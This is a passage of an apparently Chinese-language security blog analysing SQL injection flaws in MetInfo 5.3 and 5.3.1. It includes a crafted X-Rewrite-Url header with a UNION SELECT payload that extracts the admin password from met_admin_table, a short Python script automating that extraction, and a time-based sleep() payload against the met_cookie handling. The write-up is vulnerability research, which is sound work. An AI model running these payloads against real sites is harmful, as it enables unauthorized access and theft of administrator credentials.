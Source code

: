 $dirs=explode('/',$pseudo_url); 
$dir_filename=$dirs\[count($dirs)-1\];

- class1、2、3只要不主动传入即为空 
- $index变量不传入时为index，只要任意传入一个index变量后即为指定的参数 
- 一个比较头大的地方 当传入?lang=cn时，会使条件不成立。传入en时，由于metinfo获取配置变量是根据lang从数控中获取的。然而英文不存在伪静态配置，会恢复默认配置，导致条件一失败。不传入时则会报错 mysql的一个大小写特性，选择字符格式时，会有如下后缀`ci`、`cs`、`bin` ci 表示 case insensitive （大小写不敏感） cs 表示 case sensitive （大小写敏感） bin 表示按照二进制比较 此处，表则是使用的ci（自我感觉大多数表也都用的时是这个） 所以当我们传入大小写混写时，能成功选出配置参数，也能绕过!(Cn==cn) 
- class1、2、3为空时条件成立 调用该函数的页面也就只有一个index.php。根据以上分析，可以如下构造http请求

*   lang=Cn  (get)
*   index=xx  (get)
*   X\_REWRITE\_URL : x' union select 1,2,3,admin\_pass,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29 from met\_admin_table limit 1#/index.php          (http头)

![](http://blog.kingkk.com/wp-content/uploads/2018/05/86edb33b487c52b94dce8dfb2bdb6bae.png) 最后附上小型的检测脚本把
```python
#encoding=utf8
import requests,re

url = "http://localhost/metinfo5.3"

params = dict(lang='Cn',index='')
url+='/index.php'
headers = {"X-Rewrite-Url": "x' union select 1,2,3,admin_pass,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29 from met_admin_table limit 1#/index.php"}
r = requests.get(url,params=params,headers=headers,allow_redirects=False)
t = re.search('list-(.*)-Cn',r.headers['Location'])
print(t.group(1))
```
 
  
# Metinfo 5.3.1注入漏洞

参考[文章](https://www.secpulse.com/archives/41084.html) 
漏洞主要是利用json_encode时会对双引号、转义符进行转义，导致单引号的逃逸 
![](http://blog.kingkk.com/wp-content/uploads/2018/05/bf2af2bd685ddfab6c30139a1c54bbf5.png)![](http://blog.kingkk.com/wp-content/uploads/2018/05/50a531852ae60e972275e7b5f4c36ada.png) 
在`admin/include/global.func.php`的1456行`save_met_cookie`函数
```php
    function save_met_cookie(){
    	global $met_cookie,$db,$met_admin_table;
    	$met_cookie['time']=time();
    	$json=json_encode($met_cookie);
    	$username=$met_cookie[metinfo_admin_id]?$met_cookie[metinfo_admin_id]:$met_cookie[metinfo_member_id];
    	$username=daddslashes($username,0,1);
    	$query="update $met_admin_table set cookie='$json' where id='$username'";
    
    	$user=$db->query($query);
    	die($query);
    }
```
这里对met\_cookie进行json\_encode之后，就直接插入数据库。 接下来找下$met_cookie定义的地方， 
在`/admin/include/common.inc.php`中73行开始 
![](http://blog.kingkk.com/wp-content/uploads/2018/05/542581b1794be4fee3f0b96e52bc77a6.png) 
其实一开始不是很懂他在干什么，后来想想可能是怕$met\_cookie变量覆盖把，但是这样直接覆盖$met\_cookie_filter也似乎没什么区别 
找一个函数的利用页面 `/admin/login_check.php` 里面有几处调用了这个函数， 
本来是想着分析下运行逻辑的，后来嫌麻烦先直接运行下，在save\_met\_cookie()这下了个断点，直接输出下语句看看 
![](http://blog.kingkk.com/wp-content/uploads/2018/05/e4b158e2e61d43a5a2882e9314d780e9.png) 
发现确实是成功进来了，也覆盖了之前的$met_cookie变量 
![](http://blog.kingkk.com/wp-content/uploads/2018/05/679dec0fa980c7e186b6396fa21025ab.png) 
试着构造下变量`met_cookie_filter[a]=a' where id=sleep(3)%23` 